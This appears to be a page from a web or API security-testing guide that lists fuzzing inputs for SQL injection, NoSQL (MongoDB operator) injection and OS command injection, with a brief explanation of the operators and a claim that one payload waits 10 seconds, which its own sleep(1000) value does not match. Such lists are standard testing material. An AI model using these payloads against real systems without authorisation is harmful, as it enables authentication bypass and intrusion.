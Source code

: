 # SQL Injection Metacharacters
```go
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
```
# NoSQL Injection
```go
$gt
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
 $nin
{"$nin":1}
{"$nin":[1]}
{"$where":  "sleep(1000)"}
```
$gt is a MongoDB NoSQL query operator that selects documents that are greater than the provided value. The $ne query operator selects documents where the value is not equal to the provided value. The $nin operator is the “not in” operator, used to select documents where the field value is not within the specified array. Many of the others in the list contain symbols that are meant to cause verbose errors or other interesting behavior, such as bypassing authentication or waiting 10 seconds.
# OS Injection
```go
|
||
&
&&
'
"
;
'"
```
# Fuzzing Wide with Postman
